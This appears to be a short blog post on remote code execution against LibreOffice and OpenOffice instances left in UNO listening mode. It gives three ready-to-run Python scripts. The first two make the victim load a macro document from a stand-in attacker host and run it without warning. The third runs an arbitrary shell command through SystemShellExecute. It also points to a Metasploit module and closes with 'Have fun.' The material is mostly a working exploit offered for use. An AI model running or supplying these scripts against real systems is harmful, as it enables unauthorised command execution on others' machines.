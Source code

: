 ```yaml
---
layout: post
title: LibreOffice listening mode RCE
---
```


LibreOffice (as well as OpenOffice and other relatives) allows users to control the program remotely via [listening mode](https://wiki.openoffice.org/wiki/Documentation/DevGuide/ProUNO/Starting_OpenOffice.org_in_Listening_Mode). You can use this mode on any supported platform (Windows, Linux, Mac OS X).
Everything you need us start your office program with the following command:

`soffice -accept=socket,host=0,port=2002;urp;`

Office’s listening mode uses [Universal Network Objects (UNO)](https://www.openoffice.org/udk/common/man/uno.html) component model.
You can write your own scripts to use it with python3-uno package.
There are several ways to execute command on remote system using UNO in LibreOffice:
1. Open a document with macro in it with *MacroExecMode* set to [ALWAYS\_EXECUTE\_NO\_WARN](https://www.openoffice.org/api/docs/common/ref/com/sun/star/document/MacroExecMode.html#ALWAYS_EXECUTE_NO_WARN)
2. Open a document with macro and then call it with [getScript](https://www.openoffice.org/api/docs/common/ref/com/sun/star/script/provider/XScriptProvider.html#getScript) method
3. [SystemShellExecute](https://www.openoffice.org/api/docs/common/ref/com/sun/star/system/XSystemShellExecute.html#execute) method

Each method can be used with macro security set to **Very High**.

## ALWAYS\_EXECUTE\_NO\_WARN method
Create a document with macro in it. You can use MSF’s */exploit/multi/misc/openoffice_document_macro* or you can create it by yourself with *Shell* function of Basic language.
 
Assign your macro to document opening function via *Tools -> Customize -> Open Document*.

You can open not just local files, but remote files as well.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = []
prop = PropertyValue()
prop.Name = "MacroExecutionMode"
prop.Value = 4 # ALWAYS_EXECUTE_NO_WARN
inProps.append(prop)  
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
document.dispose()
```
 

## getScript method
 
Create a document with macro as in previous method, then directly call a macro inside the document with *getScript* and *invoke*.

```python
#!/usr/bin/env python3
import uno
docurl = "http://hacker.example.org/sploit.odt"
#docurl = "file:///tmp/uploaded/sploit.odt"
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
desktop = context.ServiceManager.createInstanceWithContext("com.sun.star.frame.Desktop", context)
inProps = [] 
document = desktop.loadComponentFromURL(docurl, "_blank", 0, tuple(inProps))
model = desktop.getCurrentComponent()
sp = model.getScriptProvider()
sc = sp.getScript("vnd.sun.star.script:Standard.Module1.Main?language=Basic&location=document")
sc.invoke((),(),())
document.dispose()
```

## SystemShellExecute method

The best way to execute your command is to use *execute* method of *XSystemShellExecute* interface of API. You don't even need to create a document to use it.

```python
#!/usr/bin/env python3
import uno
from com.sun.star.beans import PropertyValue
local = uno.getComponentContext()
resolver = local.ServiceManager.createInstanceWithContext("com.sun.star.bridge.UnoUrlResolver", local)
context = resolver.resolve("uno:socket,host=victim.example.org,port=2002;urp;StarOffice.ComponentContext")
rc = context.ServiceManager.createInstanceWithContext("com.sun.star.system.SystemShellExecute", context)
rc.execute("/usr/bin/touch", "/tmp/PWNED", 1)
```

Have fun.



